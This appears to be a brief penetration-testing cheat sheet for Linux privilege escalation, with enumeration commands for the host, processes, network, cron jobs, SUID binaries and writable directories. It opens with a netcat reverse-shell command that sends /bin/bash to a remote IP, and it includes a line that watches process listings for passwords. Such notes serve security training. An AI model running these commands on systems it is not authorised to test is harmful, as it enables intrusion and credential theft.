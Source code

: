 https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html

```
nc -nv 192.168.50.129 6666 -e /bin/bash
```
## BASIC MANUAL ENUMERATION
to check hostname
```
hostname
```
operating system info
```
cat /etc/issue
```
```
cat /etc/os-release
```
```
uname -a
```
list system processes
```
ps aux
```
Enumerate all the running processes with the _ps_ command and can refresh it using the _watch_ command.
```
watch -n 1 "ps -aux | grep pass"
```

to check ip
```
ifconfig -a
```
show routing tables
```
routel
```
display active network connections and listening ports
```
ss -anp
```
```
netstat
```
## CRON
```
crontab -l
```

### suid/sgid 
 
```
find / -perm -u=s -type f 2>/dev/null
```
### all writable files
```
find / -writable -type d 2>/dev/null
```
 